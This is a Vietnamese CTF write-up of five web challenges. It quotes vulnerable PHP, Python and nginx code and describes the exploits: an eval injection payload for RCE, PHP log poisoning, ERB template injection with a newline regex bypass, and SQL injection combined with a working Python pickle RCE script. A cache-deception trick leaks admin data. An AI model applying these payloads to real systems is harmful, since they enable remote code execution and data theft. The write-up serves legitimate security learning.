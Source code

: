 # Web challenger writeup
`capy3ra`

- [LoveTok](#lovetok)
- [Toxic](#toxic)
- [Neonify ](#neonify)
- [C O P](#c-o-p)
- [CDNio](#cdnio)

## LoveTok

1. Đây là một bài whitebox nên ta được cung cấp source code.
2. Sau khi đọc source, ta có thể biết được luồng xử lý của app. Ở đây hệ thống sẽ xử lý theo mô hình MVC. Với model TimeModel thực hiện khảo tạo một đối tượng ước tính thời gian với
3. Đối tượng TimeModel được khởi tạo với param `format` được truyền vào
```
public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : 'r';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
```
4. Với hàm khởi tạo model được thực hiện sẽ tạo ra một thuộc tính `prediction` được random một khoảng thời gian
5. Sau đó ở view index biến time sẽ được gán cho kết quả của phương thức getTime() với đoạn code như sau:
```
public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }
```
6. Hàm eval sẽ thực hiện một câu lệnh php động với 2 tham số `format` được nhập vào và `prediction` được random ra từ phương thức khởi tạo ở trên để gán giá trị cho biến time.
7. Với tham số format mà ta kiếm soát ta sẽ cố gắng inject vào nó. Hàm `addslashes` được sử dụng để escapse các dấu `'`,`"` nhưng thế vào chưa đủ.
8. Ý tưởng ở đây là ta sẽ chèn đoạn sau `${system($_GET[1])}` vào hàm eval rồi thêm tham số `1` để exec shell.

![image](https://github.com/capy3ra/CTFwriteup/assets/80744099/72279455-41e0-4030-92c0-5933e4098502)

9. RCE thành công. Đọc flag.
![image](https://github.com/capy3ra/CTFwriteup/assets/80744099/55d05f7e-1bd9-4f7f-a2fa-580158e1e3d7)

## Toxic

1. Whitebox. Qua phân tích có thể thấy app sẽ tạo ra một object `PageModel` với thuộc tính `file`, rồi nội dung trong sẽ là file được include
2. Có thể đọc file bằng cách thay đổi giá trị thuộc tính rồi serialize lại.
3. Ở bài này, ta có thể đọc được file access.log

![image](https://github.com/capy3ra/CTFwriteup/assets/80744099/87798192-18b6-4525-a44b-61d31ab42a5f)

4. Chèn mã php thông qua user-agent thì nhận thấy rce thành công.

![image](https://github.com/capy3ra/CTFwriteup/assets/80744099/911ef94f-3b4a-49a0-9088-771f825e4044)

## Neonify

1. Ở bài này nhận thấy trang web lấy tham số neon người dùng nhập vào để hiển thị kết quả lên màn hình sử dụng template ERB của ruby.
![image](https://github.com/capy3ra/CTFwriteup/assets/80744099/0442c52a-7c62-409c-834c-14189e60edcf)
2. Ở đây, họ sử dụng regex để validate rằng input vào chỉ chứa một chuỗi gồm các chữ và số hoặc dấu cách mà k xuất hiện các ký tự đặc biệt.
3. Tìm cách để bypass nó thì có một bài viết hướng dẫn bypass regex bằng cách xuống dòng [link](https://davidhamann.de/2022/05/14/bypassing-regular-expression-checks/)
4. Inject template để list file trong thư mục gốc
![image](https://github.com/capy3ra/CTFwriteup/assets/80744099/a5b86823-8e3e-43e0-9065-e8cd31d79862)
![image](https://github.com/capy3ra/CTFwriteup/assets/80744099/a4a97732-19da-4b2c-85b4-b6e6e0af1e8d)

5. Lấy flag
![image](https://github.com/capy3ra/CTFwriteup/assets/80744099/8d6fc4bb-33e0-457e-8d3b-4d36a43f07eb)


## C O P

1. Fuzzing web đồng thời xem source code. Trước hết để ý 2 file `routes.py` và `models.py` nhận thấy web có 2 route chính. 1 là trang chủ lấy thông tin toàn bộ sản phẩm trong bảng products trong db. 2 là endpoint view lấy giá trị product_id để lấy thông tin chi tiết sản phẩm

```
#routes.py
@web.route('/view/<product_id>')
def product_details(product_id):
    return render_template('item.html', product=shop.select_by_id(product_id))

#models.py
def select_by_id(product_id):
	return query_db(f"SELECT data FROM products WHERE id='{product_id}'", one=True)
```

2. Tuy nhiên nhận thấy ở đây, họ truy vấn sql bằng cách nối chuỗi, hơn nữa biến product_id có thể dễ dàng kiểm soát. (sqli)

3. Hơn nữa ở đây họ dùng pickle để serialize và deserialize thông tin sản phẩm. Lợi dụng pickle để exploit rce [RCE with pickle](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)

4. Dùng dump + b64encode object Items rồi lấy giá trị sau đó insert cột data trong bảng product. Khi mấy lấy dữ liệu thì load + b64 decode từ db.

5. Dựa vào wu trên, code serialize để server pickle load.

```
import pickle
import base64
import subprocess

payload = ['cat', 'flag.txt', 'application/static/.']

class RCE:
    def __reduce__(self):
        return (subprocess.check_output, (payload, ))

if __name__ == '__main__':
    print(base64.b64encode(pickle.dumps(RCE())))

```

6. Sau đó vào url /static/flag.txt lấy flag. (Không hiểu sao cách dùng os.system không được nên phải thay bằng subprocess)

## CDNio

1. Dựa vào source được cung cấp, nhận thấy app sẽ registe 3 blueprint. Flag nằm ở api-key của user admin (id = 1)
![image](https://github.com/user-attachments/assets/967bfacf-5a6d-41ad-8830-9b7901e5ac68)

2. Tại endpoint `register` truyền vào username password để thêm record vào bảng users.
3. Còn ở endpoint `search` sau khi truyền vào sẽ được jwt encode rồi truyền tới -> `profile`. Ở đây token sẽ được decode (import hàm decorator `@jwt_required`) query theo username rồi trả về info của user đó.
4. App triển khai con bot với có session của admin. Nhận đầu vào là tham số URI -> dùng để chuyển hướng đến endpoint đó. Và nó cũng được import `@jwt_required`
![image](https://github.com/user-attachments/assets/0028726d-1364-4dc2-b0e5-0f0cba989ddb)

5. Tại endpoint `profile` xử lý regex lỏng lẻo. Khi mà chỉ cần query string có bắt đầu bằng profile là tiếp tục xử lý jwt. ```if re.match(r'.*^profile', subpath):```
6. Khi đó để bot request tới profile với session của admin (trên endpoint `visit`) -> response phía bot nhận được sẽ chứa thông tin của user admin cùng với đó là flag
7. Để ý chỗ cấu hình nginx.
```
proxy_cache_path /var/cache/nginx keys_zone=cache:10m max_size=1g inactive=60m use_temp_path=off;

    server {
        listen 1337; 
        
        server_name _;  

        location ~* \.(css|js|png|jpg|jpeg|gif|ico|svg|woff|woff2|ttf|eot)$ {
            proxy_cache cache;
            proxy_cache_valid 200 3m;
            proxy_cache_use_stale error timeout updating;
            expires 3m;
            add_header Cache-Control "public";
```

8. Ở đây nginx tạo một proxy_cache để lưu lại những request mà URI có đuôi file tĩnh như css,js,... và status code = 200 sẽ được cache trong 3p.
9. Khi đó ta sẽ request lại cho bot tới uri có thêm phần extension như trên để response được cache lại. Cho phép ta có thể đọc được.
![image](https://github.com/user-attachments/assets/6decfaf3-7531-4b66-9241-b5e7bb93e828)

